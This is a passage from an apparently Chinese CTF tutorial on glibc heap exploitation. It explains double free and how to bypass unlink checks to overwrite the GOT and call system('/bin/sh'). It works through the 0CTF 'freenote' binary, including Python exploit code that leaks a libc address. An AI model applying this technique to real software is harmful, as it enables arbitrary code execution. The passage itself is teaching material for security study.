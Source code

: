 * * *

讲了那么多stack overflow的例子，我们现在换换口味，先从double free开始讲一下堆漏洞的利用。Doublefree的意思是一个已经被free的内存块又被free了第二次。正常情况下，如果double free，系统会检测出该内存块已经被free过了，不能被free第二次，程序会报错然后退出。但是如果我们精心构造一个假的内存块就可骗过系统的检测，然后得到内存地址任意写的权限。随后就可以修改got表将接下来会执行的函数替换成system()再将参数改为我们想要执行的指令，比如`"/bin/sh"`。最后就可以执行`system("/bin/sh")`了。

想要学习double free，首先要了解什么是free chunk和allocated chunk。这个在网上有大量的资料，请感兴趣的同学自学。

![picture_p13](http://static.wooyun.org//drops/20151124/2015112403492645777p1.jpg)

然后要了解Fast bin，Unsorted bin，Small bin和Large bin的概念。这个可以看这篇文章学习：

<https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/>

除此之外还有个gdb工具可以帮助我们查看内存中堆的信息，这对我们调试程序会有很大的帮助:

<https://github.com/cloudburst/libheap>

等到对堆的基本概念了解的差多了就可以学习如何利用unlink来做到内存写了。在最早版本的unlink中对内存chunk是没有任何检测的，因此我们可以很容易的做到内存任意写。但现在版本的libc中会对free的那个chunk进行检测，这个chunk的前一个chunk的bk指针和这个chunk的后一个chunk的fd指针必须指向这个即将free的chunk才行。为了bypass这个检测，我们必须在内存中找到一个地址X指向P，然后将P的fd和bk指向X。最后再触发double free的unlink，就可以将P地址的值设置为X了。

![picture_p14](http://static.wooyun.org//drops/20151124/2015112403492885899p2.jpg)

我们这次使用0ctf中的freenote这道题来实践一下double free漏洞的利用。执行这个程序我能看到这其实就是一个note记事本程序。通过newnote和delete note可以malloc()和free()内存。

    
    
    $ ./freenote_x64 
    == 0ops Free Note ==
    1. List Note
    2. New Note
    3. Edit Note
    4. Delete Note
    5. Exit
    ====================
    

但是这个程序有两个漏洞，一个是建立新note的时候在note的结尾处没有加"\0"因此会造成堆或者栈的地址泄露，另一个问题就是在deletenote的时候，并不会检测这个note是不是已经被删除过了，因此可以删除一个note两遍，造成double free。

首先我们要泄露libc和heap在内存中的地址。因为note的结尾没有"\0"，因此在输出时会把后面的内容打印出来。因为freelist的头部保存在了libc的.bss段，因此我们可以见通过删除两个note再删除一个note，然后再建立一个新note的方法来泄露出libc在内存中的地址：

    
    
    #!python
    notelen=0x80
    
    new_note("A"*notelen)
    new_note("B"*notelen)
    delete_note(0)
    
    new_note("\xb8")
    list_note()
    p.recvuntil("0. ")
    leak = p.recvuntil("\n")
    
    print leak[0:-1].encode('hex')
    leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
    print hex(leaklibcaddr)
    delete_note(1)
    delete_note(0)
    